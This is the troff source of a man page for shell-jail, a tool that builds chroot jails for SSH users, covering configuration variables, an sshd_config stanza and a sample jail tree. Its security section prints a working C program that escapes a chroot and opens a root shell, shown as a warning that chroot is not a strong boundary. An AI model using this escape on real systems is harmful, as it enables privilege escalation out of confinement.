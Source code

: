 .\" Automatically generated by Pandoc 1.15.2.1
.\"
.ad b
.hy
.TH "shell\-jail" "1" "2016\-02\-25 15:22:10" "shell\-jail" "User manual"
.SH NAME
.PP
shell\-jail \- Easy chroot environment builder
.SH SYNOPSIS
.PP
shell\-jail \f[I]config\-file\f[] \f[I]user\f[]
.SH DESCRIPTION
.PP
\f[I]shell\-jail\f[] helps you easily create chroot environments.
It was initially written to create \f[I]ssh\f[] jails.
.PP
First \f[I]shell\-jail\f[] reads the configuration file (see below for
details) and copies all required commands (and their dependencies) into
the jail directory.
The jail directory is the user\[aq]s home directory in the real file
system.
.PP
Then all \f[I]NSS\f[] information (such as \f[I]password\f[],
\f[I]shadow\f[]) is copied into the jail.
.PP
Finally all system\-related files attributes are changed to immutable to
prevent any further modification.
.SH CONFIGURATION FILE
.PP
The configuration file (see below) contains all files you want to put in
the jail.
the file consists of a \f[I]bash\f[] compatible stanza which sets 3
variables: \f[B]COMMANDS\f[], \f[B]EXTRA\f[] \f[B]EXTRA_FILES_DIRS\f[].
.TP
.B EXTRA
Files from \f[B]EXTRA\f[] variable are copied as it into the user\[aq]s
jail.
.RS
.RE
.TP
.B EXTRA_FILES_DIRS
Directory from \f[B]EXTRA_FILES_DIRS\f[] variable are copied as it into
the user\[aq]s jail in a relative way.
For example files under \f[I]/srv/extra/dir\f[] are copied into
\f[I]<USER JAIL>/\f[].
.RS
.RE
.TP
.B COMMANDS
Every file defined in \f[I]COMMANDS\f[] is copied into the user\[aq]s
jail.
Then each file is scanned for its dependencies such as library (using
ldd(1)) and devices (using strings(1)).
.RS
.RE
.SH SSH CONFIGURATION
.PP
In order to chroot a user the following stanza must be done for the
given user in \f[I]/etc/ssh/sshd_config\f[]:
.IP
.nf
\f[C]
Match\ User\ jdoe
\ \ \ \ ChrootDirectory\ /home/jdoe
\ \ \ \ X11Forwarding\ no
\ \ \ \ AllowTcpForwarding\ no
\f[]
.fi
.PP
When the user logs into the server he will be chrooted to
\f[I]/home/jdoe\f[] which structure looks like:
.IP
.nf
\f[C]
/home/jdoe
├──\ bin
│\ \ \ ├──\ cat
│\ \ \ ├──\ cp
│\ \ \ ├──\ dash
│\ \ \ ├──\ ls
│\ \ \ ├──\ mkdir
│\ \ \ ├──\ mv
│\ \ \ ├──\ rm
│\ \ \ └──\ sh\ \->\ /bin/dash
├──\ dev
│\ \ \ ├──\ net
│\ \ \ │\ \ \ └──\ tun
│\ \ \ ├──\ null
│\ \ \ └──\ tty
├──\ etc
│\ \ \ ├──\ group
│\ \ \ └──\ passwd
├──\ lib
│\ \ \ └──\ x86_64\-linux\-gnu
│\ \ \ \ \ \ \ ├──\ libacl.so.1
│\ \ \ \ \ \ \ ├──\ libattr.so.1
│\ \ \ \ \ \ \ ├──\ libc.so.6
│\ \ \ \ \ \ \ ├──\ libdl.so.2
│\ \ \ \ \ \ \ ├──\ libnss_compat\-2.19.so
│\ \ \ \ \ \ \ ├──\ libnss_compat.so.2\ \->\ libnss_compat\-2.19.so
│\ \ \ \ \ \ \ ├──\ libnss_files\-2.19.so
│\ \ \ \ \ \ \ ├──\ libnss_files.so.2\ \->\ libnss_files\-2.19.so
│\ \ \ \ \ \ \ ├──\ libpcre.so.3
│\ \ \ \ \ \ \ ├──\ libpopt.so.0
│\ \ \ \ \ \ \ ├──\ libselinux.so.1
│\ \ \ \ \ \ \ └──\ libz.so.1
├──\ lib64
│\ \ \ └──\ ld\-linux\-x86\-64.so.2
├──\ home
│\ \ \ └──\ jdoe
│\ \ \ \ \ \ \ └──\ USER\[aq]S\ FILES\ AND\ DIR
└──\ usr
\ \ \ \ ├──\ bin
\ \ \ \ │\ \ \ ├──\ rsync
\ \ \ \ │\ \ \ └──\ scp
\ \ \ \ └──\ lib
\ \ \ \ \ \ \ \ └──\ openssh
\ \ \ \ \ \ \ \ \ \ \ \ └──\ sftp\-server
\f[]
.fi
.SH SECURITY
.PP
It is relatively easy to escape from a chroot (see
https://filippo.io/escaping\-a\-chroot\-jail\-slash\-1).
So do not consider a chroot as a ultimate security solution.
.PP
This simple C program can allow you to escape from the chroot as long as
the binary is owned by root and setuid to root.
.IP
.nf
\f[C]
#include\ <sys/stat.h>
#include\ <unistd.h>
#include\ <fcntl.h>
\ 
int\ main()\ {
\ \ \ \ int\ dir_fd,\ x;
\ \ \ \ setuid(0);
\ \ \ \ mkdir(".42",\ 0755);
\ \ \ \ dir_fd\ =\ open(".",\ O_RDONLY);
\ \ \ \ chroot(".42");
\ \ \ \ fchdir(dir_fd);
\ \ \ \ close(dir_fd);\ \ 
\ \ \ \ for(x\ =\ 0;\ x\ <\ 1000;\ x++)\ chdir("..");
\ \ \ \ chroot(".");\ \ 
\ \ \ \ return\ execl("/bin/sh",\ "\-i",\ NULL);
}
\f[]
.fi
.SH SEE ALSO
.PP
sshd_config(5), ldd(1), strings(1)
.SH BUGS
.PP
No time to include bugs, command actions might seldom lead astray
user\[aq]s assumption.
.SH COPYRIGHT
.PP
Copyright © 2010\-2016 Sébastien Gross <seb•ɑƬ•chezwam•ɖɵʈ•org>.
.PP
Relesed under WTFPL (http://sam.zoy.org/wtfpl/COPYING).
.SH AUTHORS
Sébastien Gross.
